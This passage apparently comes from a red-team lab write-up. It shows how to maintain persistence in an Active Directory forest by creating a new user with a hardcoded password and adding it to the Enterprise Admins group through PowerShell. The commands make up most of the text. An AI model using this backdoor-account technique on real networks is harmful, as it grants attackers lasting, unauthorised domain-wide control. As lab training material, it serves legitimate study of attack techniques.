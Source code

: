 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to **Enterprise Admins** group, using the following PowerShell code:

## Connect to CORPDC with Administration credentials

[[Connect to CORP.DC with Administration credentials]]

## Adding a new user as an Enterprise Admin

PS C:\Users\Administrator>`$pwd = convertTo-SecureString Capstone1@ -AsPlainText -Force`

PS C:\Users\Administrator>`New-ADUser -Name kairosroot -AccountPassword $pwd `

PS C:\Users\Administrator>`$User = Get-ADUser -Identity kairosroot  -Server "corpdc.corp.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`

![[Maintain persistence-20240613153305218.webp]]

## Check out the user and group

PS C:\Users\Administrator> `echo $user`

![[Maintain persistence-20240613153842909.webp]]

PS C:\Users\Administrator> `echo $group`

![[Maintain persistence-20240613153950655.webp]]


With our new created user, we can just login in the ROOTDC as an Enterprise Admin: